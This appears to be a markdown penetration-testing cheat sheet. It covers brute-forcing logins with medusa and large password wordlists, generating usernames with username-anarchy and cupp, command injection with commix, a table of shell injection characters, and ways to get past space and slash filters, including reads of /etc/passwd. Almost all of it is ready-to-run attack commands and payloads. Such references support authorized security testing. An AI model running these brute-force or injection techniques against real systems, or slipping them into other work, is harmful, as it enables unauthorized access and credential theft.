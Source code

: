 
## Other brutefoce attack examples

 - `medusa -h 1.2.3.4 -u admin -p pass1234 -M ssh -n 2222`
 - `medusa -H host_list.txt -U /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/rockyou.txt -M ftp`
 - `medusa -H host_list.txt -U /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/rockyou.txt -M http -m GET`
 - `medusa -M http -m "POST /login.php HTTP/1.1\r\nContent-Length: 30\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\nusername=^USER^&password=^PASS^" -h https://pentest-experts.com`

 **Username generation**

  - `./username-anarchy Jane Smith > jane_smith_usernames.txt`  
    Create a username list

**Targeted wordlists**

 - `cupp -i` (interactive mode)


## Command injection

 - `commix --url="https://pentest-experts.com/ping.php?ip=INJECT_HERE"`

**Injection characters**

```
CHAR   URL ENC.    DESCRIPTION
-----  ----------  ----------------------------
 ;     %3b         (Concatination of commands)
 \n    %0a         (Newline)
 &     %26         (Background)
 |     %7c         (Pipe)
 &&    %26%26      (Logical AND)
 ||    %7c%7c      (Logical OR)
 ``    %60%60      (Subshell)
 $()   %24%28%29   (Subshell)
```

**Bypassing space blacklist**

 - Encoding the space as `\x20`
 - Using a tab (`%09`)
 - Using `${IFS}` - a Linux environment variable containing the CLI argument speparator (usually the space)
 - Using the input redirection operator - e.g.: `cat</etc/passwd`
 - Using the bash brace expantion syntax - e.g.: `{cat,/etc/passwd}`

**Bypassing `\` and `/` blacklisting**

 - Using `${PATH:0:1}` in Linux (Substring)
 - Using `$(tr '!-}' '"-~'<<<[)` in Linux (Character shifting)
 - Using `$env:HOMEPATH[0]` in Windows Powershell
 - Using `%HOMEPATH:~6,-5%` in Windows CMD (`-5%` is the length of the username)

